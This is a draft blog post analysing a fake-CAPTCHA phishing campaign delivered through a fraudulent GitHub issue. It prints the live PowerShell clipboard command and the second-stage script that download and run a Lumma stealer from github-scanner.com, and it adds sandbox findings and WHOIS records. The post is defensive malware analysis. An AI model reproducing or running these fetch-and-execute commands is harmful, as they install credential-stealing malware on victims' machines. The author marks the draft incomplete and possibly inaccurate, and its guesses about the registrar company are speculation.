


THIS IS INCOMPLETE AND POSSIBLY INACCURATE. DONT DRAWY ANY CONCLUSIONS FROM THIS. I WILL GET TL THIS LATER.

Todo: ill just add the screenshots for now. i write the article later either on this saturday and sunday or after my exams are over.

<!--truncate-->

Today, i recieved an email that says theres a security vulnerability detected in one of my github repository. Normally, i recieve emails from depandabot every now and then, but it links me back to github for further action.

But this email, asks me to vist github-scanner.com, and is slightly unusual, as its an issue opened in this repository, that says to go to this unkown link to get more information on how to fix this issue.


As expected, github identified it as fradulent / malicious and has deleted that issue from my repository quickly from github.com


But, i still have the content of that malicious issue opened in my emails. So, i clicked on this link.

It asked to me verify if i'm not a robot. you might encounter something similar when using VPNs to access certian websites. 

But this looks completely different than what services like cloudflare, and yes, it's custom written.


After you click to verify, a text (a powershell command) will be copied to your clipboard by the website. And it will ask you to open `Run` -> `CTRL+V` to paste -> `Enter` to run that command.

This is not how human verification works. Its done using an image or a sound clip most of the time.


This is what's being copied to the clipboard. 

```
powershell.exe -w hidden -Command "iex (iwr 'https://github-scanner.com/download.txt').Content" # "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"
```

Lets break it down.

- `powershell.exe -w hidden` will run the powershell script in hidden mode, so, no console will be visible to the user.

- `-Command "iex (iwr 'https://github-scanner.com/download.txt').Content"` will fetch the content available at: `https://github-scanner.com/download.txt` and will execute it immediately, in the background.
    - `iex` short for `Invoke-Expression` will execute a string as it was a command
    - `iwr` short for `Invoke-WebRequest` will send a web request to this: `https://github-scanner.com/download.txt` url
    - `.Content` will extract the contents returned from that web request.
- `# "✅ ''I am not a robot - reCAPTCHA Verification ID: 93752"` is just a a comment, so it doesnt affect he command's functionality. It's sole purpose is to trick the user into thinking that nothing suspicious is running and what we paste is related to the human verification process.

This is what it will look like after it gets pasted to the Run box



Lets see what this command fetches and executes.

And `https://github-scanner.com/download.txt` contains a powershell script

```ps1
$WebClient = New-Object System.Net.Webclient
$url1 = "https://gitub-scanner.com/l6E.exe"
$filePath1 = "$env:TEMP\SysSetup.exe"
$webClient.DownloadFile($url1, $filePath1)
Start-Process -FilePath $env:TEMP\SysSetup.exe
```

Let's break it down:

- `$WebClient = New-Object System.Net.Webclient` will create a new instance of the `WebClient` class , which allows you to download files from the web.
- `$url1 = "https://github-scanner.com/l6E.exe"`sets the url of the file that will be downloaded. Its a file called `l6E.exe` hosted in `github-scanner.com`
- `$filePath1 = "$env:TEMP\SysSetup.exe"` will be the place where this downloaded file will be saved to. Note that it uses the name `SysSetup.exe` to make it look less suspicous to the end user, if he ever notices in taskmgr
- `$webClient.DownloadFile($url1, $filePath1)` will download this file stored in `$url1` and store it to `$filePath1`
- `Start-Process -FilePath $env:TEMP\SysSetup.exe` will run this saved file. 


Via static analysis through Virus Total, looks like only 12 engines has detected this. Its seems to be a fairly common stealer, but only 12 engined detected it. Maybe it has to do something with the way its packet. I'm not exactly sure. [Click here](https://www.virustotal.com/gui/url/b64a25fef85ad988dee3ds3b772ea60dc4d53333cd0857924745c000ff858c5eb) to open the report.


Looks like there's already a comment made on Virus Total, and looks like he got to this via the same way as it did. 


Lets run this sample through any.run for some dynamic analysis. [Click here](https://app.any.run/tasks/8ac63e3e-621c-4d47-b832-73dad43c208c
) to open the report.


We can see that it makes connections to many unknown hosts. Maybe they do it for redundancy in their end, incase if one IP or a domain gets taken down, they will still recieve the data from another IP or a domain.

We can also see that Suricata (an open source intrusion detection system) has identified this to `LUMMA Stealer`


    

Putting it for further dynamic analysis through tria.ge. We can confirm stuff furthermore. [Click here](https://tria.ge/240919-fczkva1gja/behavioral1) to open the report.

We can also see that this malicious program does Browser Information Discovery, followed by some other discovery techniques.


We can see that the stealer tries to contact several domains. There is also a GET request made to a steam profile - no idea where that came from.


Let's take a look at this IP address where this web server is hosted it.


When we look that IP up, we can find information about its provider and also the provider's email address which we can report abuse to. 


I did report them via email.

I also got the WHOIS report on this domain.

```
   Domain Name: GITHUB-SCANNER.COM
   Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.webnic.cc
   Registrar URL: http://https://www.webnic.cc
   Updated Date: 2024-09-18T12:34:24Z
   Creation Date: 2024-09-18T12:34:24Z
   Registry Expiry Date: 2025-09-18T12:34:24Z
   Registrar: Web Commerce Communications Limited dba WebNic.cc
   Registrar IANA ID: 460
   Registrar Abuse Contact Email: compliance_abuse@webnic.cc
   Registrar Abuse Contact Phone: +60.189836788
   Domain Status: ok https://icann.org/epp#ok
   Name Server: CODY.NS.CLOUDFLARE.COM
   Name Server: MARGOT.NS.CLOUDFLARE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
>>> Last update of whois database: 2024-09-19T04:59:15Z <<<

...

The Registry database contains ONLY .COM, .NET, .EDU domains and
Registrars.


Domain Name: GITHUB-SCANNER.COM
Registry Domain ID: 2917879423_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.webnic.cc 
Registrar URL: http://www.webnic.cc 
Updated Date: 2024-09-18T12:41:20Z
Creation Date: 2024-09-18T12:34:24Z
Expiration Date: 2025-09-18T00:34:24Z
Registrar: WEBCC 
Registrar IANA ID: 460 
Registrar Abuse Contact Email: compliance_abuse@webnic.cc 
Registrar Abuse Contact Phone: +60.389966799 
Domain Status: ok https://icann.org/epp#ok 
Registry Registrant ID: Not Available From Registry
Registrant Name: Domain Admin 
Registrant Organization: Whoisprotection.cc
Registrant Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Registrant City: Kuala Lumpur
Registrant State/Province: Wilayah Persekutuan
Registrant Postal Code: 57000
Registrant Country: Malaysia
Registrant Phone: +60.389966788
Registrant Phone Ext: 
Registrant Fax: +603.89966788
Registrant Fax Ext: 
Registrant Email: reg_21331022@whoisprotection.cc
Registry Admin ID: Not Available From Registry
Admin Name: Domain Admin 
Admin Organization: Whoisprotection.cc
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
Admin Phone Ext: 
Admin Fax: +603.89966788
Admin Fax Ext: 
Admin Email: adm_21331022@whoisprotection.cc
Registry Tech ID: Not Available From Registry
Tech Name: Domain Admin 
Tech Organization: Whoisprotection.cc
Tech Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Tech City: Kuala Lumpur
Tech State/Province: Wilayah Persekutuan
Tech Postal Code: 57000
Tech Country: Malaysia
Tech Phone: +60.389966788
Tech Phone Ext: 
Tech Fax: +603.89966788
Tech Fax Ext: 
Tech Email: tec_21331022@whoisprotection.cc
Name Server: CODY.NS.CLOUDFLARE.COM
Name Server: MARGOT.NS.CLOUDFLARE.COM
DNSSEC: unsigned

URL of the ICANN WHOIS Data Problem Reporting System: https://www.icann.org/wicf
>>> Last update of WHOIS database: 2024-09-19T04:59:24Z <<<
does not guarantee its accuracy. By submitting a WHOIS query, you agree 
that you will use this Data only for lawful purposes and that, under no 
circumstances will you use this Data to:

...
```

Information in the WHOIS lookup is just the contact information for the company that owns the registrar.
WebNic (The Registrar) seems to be owned by https://www.qinetics.net/.

```
Admin Street: L4-E-2, Level 4, Enterprise 4, Technology Park Malaysia, Bukit Jalil
Admin City: Kuala Lumpur
Admin State/Province: Wilayah Persekutuan
Admin Postal Code: 57000
Admin Country: Malaysia
Admin Phone: +60.389966788
```

And, googling this phone number leads you to many scams that has been reported previously by a large number of people over a long time span.


Googling the address will show you these results:

Which looks like several bussinesses using the same address? Or they might be in the same building, but the "L4-E-2, Level 4, Enterprise 4" makes me think its the extract address of their office inside that building.

Note how inconsistent the addresses are for each company name.



Most probably, "Qinetics Solutions Sdn Bhd" might be a legitamata company and Qnity might be the scammers, with a name close enough to a legitate bussiness, nearby.

These google reviews in this relatively small company also proves the fact that more people has encountered scams via domains provided by this registrar. 


There are two conclusions which we can draw.

It's either a legitamate company providing legitamate services, which are being heavily abused by scammers or an illegitimate company that scams people.

